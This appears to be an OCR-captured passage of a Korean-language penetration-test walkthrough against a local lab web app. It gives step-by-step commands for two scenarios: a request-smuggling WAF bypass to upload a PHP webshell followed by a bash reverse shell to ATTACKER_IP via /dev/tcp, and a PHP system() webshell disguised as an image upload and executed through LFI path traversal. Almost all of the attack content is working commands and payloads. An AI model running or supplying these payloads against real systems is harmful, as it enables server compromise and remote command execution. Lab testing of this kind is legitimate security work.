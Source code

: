 ### Step 1: Request Smuggling으로 WAF 우회
```bash
python3 smuggle_webshell.py backdoor.php
```

### Step 2: 웹쉘 접근
```bash
curl "http://localhost:9000/uploads/backdoor.php?cmd=id"
```

### Step 3: 리버스쉘 획득
```bash
# 리스너 시작
nc -lvnp 4444

# 리버스쉘 트리거
curl "http://localhost:9000/uploads/backdoor.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER_IP/4444+0>%261'"
```

### 결과
- ✅ WAF 우회 성공
- ✅ 웹쉘 업로드 성공
- ✅ www-data 권한으로 쉘 획득

---

## 시나리오 2: LFI → 웹쉘 실행

### Step 1: 일반 업로드 (이미지로 위장)
```bash
echo '<?php system($_GET["c"]); ?>' > image.jpg.php
curl -F "image=@image.jpg.php" http://localhost:9000/api/submit_inquiry.php
```

### Step 2: LFI로 실행
```bash
curl "http://localhost:9000/support.php?lang=../../uploads&page=image.jpg.php&c=whoami"
```

### 결과
- ✅ 파일 업로드 (WAF가 .jpg 확장자를 허용할 수 있음)
- ✅ LFI로 PHP 코드 실행

---

# 📊 보안 테스트 결과

## 테스트 1: 일반 업로드 (WAF 적용 시)
